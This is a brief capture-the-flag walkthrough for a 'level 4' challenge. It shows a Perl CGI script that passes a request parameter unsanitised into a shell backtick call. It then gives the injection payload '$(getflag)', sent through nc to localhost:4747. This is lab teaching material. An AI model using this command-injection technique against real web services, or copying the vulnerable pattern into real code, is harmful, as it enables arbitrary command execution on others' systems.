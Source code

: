 ## Walkthrough :
- This level 4 contain a perl script : 
```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print \`echo $y 2>&1\`;
}
x(param("x"));
```
- this program shows that a webserver is listening on localhost:4747 and expecting a x param, which will be passed to a sub routine.
```
print \`echo $y 2>&1\`;
```
- this line allows the output of **echo $y to be passed to the function print**.
- we only need to pass our exploit *$(getflag)* to echo, this will runs as a sub command .
    - connect using
    ```
    nc localhost 4747
    ```
    - GET /?x=$(getflag)
    ```


## Ressources
- [command substitution](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html)